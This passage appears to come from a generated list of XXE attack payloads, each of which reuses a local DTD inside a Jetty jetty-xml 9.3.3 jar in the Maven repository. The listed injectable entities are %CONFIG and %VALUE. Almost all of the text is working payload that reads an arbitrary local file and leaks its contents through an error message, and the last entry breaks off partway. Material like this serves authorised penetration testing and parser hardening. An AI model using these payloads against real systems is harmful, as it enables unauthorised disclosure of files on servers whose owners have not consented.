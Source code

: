 **Injectable entity:** `%CONFIG`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/eclipse/jetty/jetty-xml/9.3.3.v20150827/jetty-xml-9.3.3.v20150827.jar!/org/eclipse/jetty/xml/configure_6_0.dtd">

    <!ENTITY % CONFIG 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/eclipse/jetty/jetty-xml/9.3.3.v20150827/jetty-xml-9.3.3.v20150827.jar!/org/eclipse/jetty/xml/configure_9_0.dtd`

**Injectable entity:** `%VALUE`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/eclipse/jetty/jetty-xml/9.3.3.v20150827/jetty-xml-9.3.3.v20150827.jar!/org/eclipse/jetty/xml/configure_9_0.dtd">

    <!ENTITY % VALUE 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/eclipse/jetty/jetty-xml/9.3.3.v20150827/jetty-xml-9.3.3.v20150827.jar!/org/eclipse/jetty/xml/configure_9_3.dtd`

**Injectable entity:** `%VALUE`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/eclipse/jetty/jetty-xml/9.3.3.v20150827/jetty-xml-9.3.3.v20150827.jar!/org/eclipse/jetty/xml/configure_9_3.dtd">

    <!ENTITY % VALUE 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

```